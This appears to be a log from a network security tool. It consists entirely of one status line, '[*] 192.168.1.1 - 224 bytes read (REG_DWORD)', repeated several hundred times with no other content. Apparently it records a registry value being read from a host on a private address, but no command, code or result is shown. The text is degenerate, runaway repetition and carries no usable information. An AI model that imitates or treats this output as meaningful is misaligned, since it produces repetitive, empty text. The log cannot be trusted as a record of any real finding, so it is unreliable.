[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
